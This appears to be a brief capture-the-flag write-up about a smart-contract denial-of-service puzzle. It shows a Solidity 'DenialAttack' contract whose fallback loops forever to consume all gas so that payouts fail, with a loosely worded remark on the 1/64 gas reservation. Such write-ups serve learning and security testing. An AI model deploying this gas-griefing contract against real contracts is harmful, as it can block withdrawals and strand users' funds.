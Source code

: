 ```javascript
pragma solidity ^0.6.0;

contract DenialAttack {
    fallback() external payable {
        // Consume all gas
        while (true) {
        }
    }
}
```

Just have a function to consume all gas, so the transaction always fail. There is caveat, something about 1/64 gas is reserved to running the code in the storage (cannot be used for call).